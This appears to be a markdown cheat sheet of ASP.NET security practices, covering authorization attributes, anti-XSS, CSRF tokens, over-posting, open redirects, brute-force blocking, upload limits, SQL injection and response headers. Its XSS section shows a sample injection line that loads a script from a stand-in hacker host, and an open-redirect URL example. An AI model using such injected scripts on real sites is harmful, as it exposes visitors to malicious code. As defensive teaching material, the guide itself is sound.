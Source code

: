 [Visual Studio Tool](https://security-code-scan.github.io/)


[Web Goat](https://github.com/OWASP/WebGoat.NET/zipball/master)

---

* Authentication
* Authorization
* Anti XSS (Cross Site Scripting)
* CSRF (Cross Site Request Forgery)
* Cookie Stealing
* Over Posting
* Preventing Open Redirection Attacks
* Blocking Brute Force Attacks
* File Upload Protection
* Prevent SQL Injection in ADO.NET and Entity Framework 6.0
* Using a Dedicated Error Logging API
* General Security Recommendations

---
#Authentication



---
#Authorization
```
[Authorize(Users = "admin,jsmith")] 
public ActionResult AddArticle() 
{ 
 return View(); 
} 
```
---
#Anti XSS

* The ASP.NET Request Validation should be Enabled all the time
* Ensure URL query string is encoded
* Ensure content sanitization is enabled to prevent adding scripts and untrusted attributes in the HTML content (you can use the AntiXSS library from nuget)
```
This is a nice post</div><script>src=http://hackingsite.com/badscript.js</script>
```
# CSRF (Cross Site Request Forgery)

 Cross-Site Request Forgery (CSRF) is an attack where a malicious site sends a request to a vulnerable site where the user is currently logged in.
```c#

@using (Html.BeginForm("Register", "Account", FormMethod.Post, new { @class = "form-horizontal" }))
{
  @Html.AntiForgeryToken()
}

This will output something like the following:
<form action="/Account/Register" class="form-horizontal" method="post">
 <input name="__RequestVerificationToken" type="hidden" value="sK0JeZQqjaazgtWM5SYPXHhng0CoEWrpE_MWyiajpmDPKL2rjSoUpQAhEYoo1" />
 <!-- rest of form goes here -->
</form>
```


---
# Over Posting
ie
```
public async Task<IActionResult> Create([Bind("First,Last")] Person person)

```
```
public class Person
{
  public int ID { get; set; }
  public string First { get; set; }
  public string Last { get; set; }
  public bool IsAdmin { get; set; }
}

```
# Redirect Attacks
```
/Account/Login?ReturnUrl=%2FHome%2FIndex.
```
```
http://www.mydomain.com?ReturnUrl=www.fakedomain.com
```
prevent by 
```
return RedirectToLocal(returnUrl);
```
# Blocking Brute Force Attacks

* Lock user account after specific number of login attempts
* Enable Google reCAPTCHA on Login page
---
# File Upload Protection
* The file to be uploaded should be validated against a white-list extensions
* Restrict the maximum file size
* Disallow uploading executable files
---
# Prevent SQL Injection in ADO.NET and EF 6.0 (Entity Framework 6.0)
* Input validation (constrain and sanitize input data). Check for bad input data by validating the type and format of the data
* Use SQL stored procedures for data access. The dynamic construction of SQL statements is being protected with the use of type-safe SQL parameters for data access
* Avoid using an over-privileged database login
* Avoid disclosing database error information, the actual error is logged in log file and the user is being redirected to a custom error page. Never display the actual error information
* Encrypt the SQL connection to protect sensitive data: The Entity Framework does not directly handle data encryption. If users access data over a public network, your application should establish an encrypted connection to the data source to increase security

---
# General Security Recommendations

* Enable the response header “Content-Security-Policy”
* Enable the response header "X-Content-Type-Options"
* Enable the response header "X-XSS-Protection”
* Block XFS attacks (Cross-Frame Scripting) by enabling the response header “X-Frame-Options”
* Prevent disclose the server information and the .NET framework information from the response header. The following headers should be removed from the response:
    * Server - Specifies web server version (IIS version)
    * X-Powered-By - Indicates that the website is "powered by ASP.NET."
    * X-AspNet-Version - Specifies the version of ASP.NET used.

---
# References
 * [http://msdn.microsoft.com/en-us/security/default.aspx](Microsoft Security Developer Center	)


* [http://www.wrox.com/WileyCDA/WroxTitle/Beginning-ASP-NETSecurity.productCd-0470743654.html](Book: Beginnning ASP.NET Security (Barry Dorrans)	
)

* [http://www.troyhunt.com/2010/05/owasp-top-10-for-net-developers-part-1.html](Free e-book: OWASP Top 10 for .NET Developers	)

	
*  [http://antixss.codeplex.com/](AntiXSS)

*  [http://blogs.msdn.com/securitytools](Microsoft Information Security Team)

* [http://www.owasp.org/](Open Web Application Security Project

